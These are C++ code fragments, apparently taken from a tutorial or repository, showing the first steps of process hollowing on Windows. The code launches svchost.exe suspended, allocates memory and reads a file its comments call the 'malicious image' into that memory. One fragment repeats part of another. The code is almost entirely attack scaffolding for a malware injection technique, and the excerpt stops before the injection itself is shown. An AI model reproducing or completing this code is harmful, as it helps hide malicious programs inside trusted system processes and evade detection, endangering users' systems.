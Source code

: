 ```
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```
```
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```
```
DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);

PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```
```
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```
